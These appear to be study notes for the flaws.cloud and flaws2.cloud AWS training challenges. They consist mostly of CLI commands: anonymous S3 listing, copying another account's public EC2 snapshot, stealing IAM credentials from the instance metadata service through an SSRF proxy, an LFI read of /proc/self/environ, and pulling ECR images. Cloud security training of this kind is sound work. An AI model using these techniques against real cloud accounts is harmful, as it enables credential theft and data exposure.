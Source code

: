 # 0. Steps 
Google Dorking
Github Repos
Pivot from compromised computer with AWS Keys
Pivot from compromised AWS environment. 

# 1. Step 
```
dig +nocmd flaws.cloud any +multiline +noall +answer

dig <DNS>

nslookup <ip> 

aws s3 ls s3://flaws.cloud --no-sign-request


```

# 1.1 Attacking EC2
AWS allows you to make snapshots of EC2's and databases (RDS). Attack credentials in backups. 

1. Get credentials
2. Get Account ID
```
aws --profile flaws sts get-caller-identity
```
3. Get Snapshot and Volume info
	1. Snapshots go across regions
	2. Volume stays in the same region as the snapshot. 
```
aws --profile mine ec2 describe-snapshots --owner-id 975426262029 

```
4. Get Permission info
```
aws ec2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile flaws
```
 5.  Create Volume in my account using the snapshot
```
 aws ec2 create-volume --availability-zone us-west-2c --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89 --profile mine

```

## 1.2 Steal EC2 Metadata credential via SSRF

Metadata service can be access at the following addresses from EC2 instances using Instance Metadata Service (IMDS)
```
http://169.254.169.254/latest/meta-data/

http://[fd00:ec2::254]/latest/meta-data/

OR Try LFI
http://container.target.flaws2.cloud/proxy/file:///proc/self/environ




```

### 1.2.1 Steps
1. Gather user info from IMDS 
https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
```
# curl webaddress/proxy/IMDS
e.g. 
curl 
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/

169.254.170.2/v2/credentials/

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/
ALSO try

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/*role_name*/



```
3. Create profile 
```
> aws configure --profile <new user>
> aws configure set aws_session_token <SESSIONTOKENHERE>

## Update profiles
~/.aws/credentials

## Access the hidden folder
aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws5

```

## 1.3 Custom Policy
```
# Create a target user
$ aws configure --profile <new user>

# Check user
aws --profile <new user> iam get-user

# Check user policy
aws --profile <new user> iam list-attached-user-policies --user-name Level6

OR 
cloudfox --> check permission.csv

# Get policy info and version info
aws --profile flaws6 iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways

# View a specific version
aws --profile flaws6 iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
 ## Restapi indicates lambda


# get Lambda policy
aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6



# List Lambda functions
aws --profile flaws6 lambda list-functions --region us-west-2

# Get the specific function info
aws --profile flaws6 lambda get-policy --region us-west-2 --function-name Level6

# OR Check cloudfox
resource-trusts or lambda

# Based on the previous command, s33ppypa75 is restapi ID.
"Resource": "arn:aws:apigateway:us-west-2::/restapis/*"   

arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}

# Search for other policy
aws --profile flaws6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"

```

ARN = Amazon Resource Names
https://docs.aws.amazon.com/IAM/latest/UserGuide/reference-arns.html
```
arn:partition:service:region:account-id:resource-type/resource-id

```

# 1.4 Credentials
EC2 : Metadata service 169.254.169.254
Lambda : Environment variables


## 1.5 Elastic Container Registry  (ECR)

![](https://i.imgur.com/iUpMNSX.png)



Amazon Elastic Container Registry (Amazon ECR) is a fully managed container registry offering high-performance hosting, so you can reliably deploy application images and artifacts anywhere.
```
$  aws ecr help

$  aws sts get-caller-identity --profile flaws2

$ aws ecr describe-images --profile flaws2 --repository-name level2

$ aws ecr list-images --profile flaws2 --repository-name level2 

$ aws ecr list-images --repository-name level2 --registry-id 653711331788


OPTION1 Docker
aws ecr get-login-password --profile <user>

docker login -u AWS -p eyJwYXlsb2FkIjoibzB..U5ODU5fQ==  https://653711331788.dkr.ecr.us-east-1.amazonaws.com

docker pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest

or docker image ls
 --> docker inspect <Image ID>
docker image history <image ID> --no-trunc




OPTION2 AWS CLI
 aws sts get-caller-identity --profile flaws2



aws ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest --profile flaws2|jq '.images[].imageManifest|fromjson'


aws ecr get-download-url-for-layer --repository-name level2 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621" --profile flaws2






```


# 2. Tools

[AWS -Tools](AWS%20-Tools.md)


